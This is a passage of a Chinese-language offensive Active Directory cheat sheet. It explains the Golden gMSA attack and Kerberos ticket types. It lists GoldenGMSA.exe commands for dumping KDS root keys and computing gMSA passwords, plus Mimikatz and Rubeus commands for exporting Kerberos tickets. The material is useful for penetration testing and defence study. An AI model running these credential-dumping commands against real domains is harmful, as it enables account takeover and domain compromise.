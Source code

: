 ## 伪造金票GMSA

> Golden Ticket攻击与Golden GMSA攻击的一个显著区别是，没有办法旋转KDS根密钥秘密。因此，如果KDS根密钥被泄露，没有办法保护与之关联的gMSAs。

:warning: 您不能“强制重置”gMSA密码，因为gMSA的密码从不更改。密码是由KDS根密钥和`ManagedPasswordIntervalInDays`派生的，因此每个域控制器都可以随时计算出密码是什么，过去是什么，以及将来在任何时间点会是什么。

* 使用[GoldenGMSA](https://github.com/Semperis/GoldenGMSA)

  ```ps1
  # 枚举所有gMSAs
  GoldenGMSA.exe gmsainfo
  # 查询特定的gMSA
  GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112
  
  # 转储所有KDS根密钥
  GoldenGMSA.exe kdsinfo
  # 转储特定的KDS根密钥
  GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
  
  # 计算gMSA密码
  # --sid <gMSA SID>: gMSA的SID（必需）
  # --kdskey <Base64编码的blob>: Base64编码的KDS根密钥
  # --pwdid <Base64编码的blob>: msds-ManagedPasswordID属性值的Base64
  GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # 需要对域的特权访问
  GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45UZXyuYB[...]G2/M= # 需要LDAP访问
  GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45U[...]SM0R7djG2/M= --pwdid AQAAA[..]AAA # 离线模式
  ```

## Kerberos票证

票证用于授予对网络资源的访问权限。票证是一种包含有关用户身份、正在访问的网络服务或资源以及与该资源关联的权限或特权的数据结构。Kerberos票证具有有限的生命周期，并在一段时间后过期，通常为8到12小时。

在Kerberos中有两种类型的票证：

* **票据授权票据**（TGT）：用户在初始认证过程中获得TGT。它用于请求额外的服务票据，而无需用户重新输入其凭据。TGT包含用户的身份、时间戳和用户秘密密钥的加密。

* **服务票据**（ST）：服务票据用于访问特定的网络服务或资源。用户将服务票据呈现给服务或资源，然后使用该票据对用户进行身份验证并授予对所请求资源的访问权限。服务票据包含用户的身份、时间戳和服务秘密密钥的加密。

### 转储Kerberos票证

* Mimikatz: `sekurlsa::tickets /export`

* Rubeus 

  ```ps1
  # 列出可用票证
  Rubeus.exe triage
  
  # 转储一个票证，输出为Kirbi格式
  Rubeus.exe dump /luid:0x12d1f7
  ```
